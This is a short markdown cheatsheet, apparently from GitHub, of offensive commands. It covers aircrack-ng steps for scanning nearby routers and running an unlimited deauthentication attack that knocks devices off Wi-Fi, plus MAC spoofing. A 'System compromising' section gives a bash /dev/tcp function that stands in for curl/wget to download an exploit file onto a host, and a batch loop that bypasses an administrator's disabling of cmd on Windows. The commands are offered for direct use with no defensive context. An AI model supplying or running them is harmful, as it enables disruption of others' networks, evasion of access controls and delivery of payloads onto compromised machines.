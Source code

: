 # Useful Cheatsheet

## Networking stuff

### Show my wireless card name
```
iwconfig
```

### Put wireless card on monitor mode
```
airmon-ng start {card name}
```

### Show routers in range
```
airdump-ng {card name}
```
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Show devices connected to a specific router
```
airodump-ng {card name} --bssid {router BSSID} --channel {router channel}
```
- router is also included there

### Create deauth attack
```
aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}
```
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

### Host DarkWeb, Secret chat
- use onionshare

## System compromising

### curl or wget without the function itself
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
 
 
# USAGE: __curl http://www.example.com/exploit.py > sploitz.py
```
### Get cmd in Windows if not enabled by administrator
- Create a file `something.bat` with following content
```
@echo off
:a
Set /p comm=cmd~
%comm%
Goto a
```
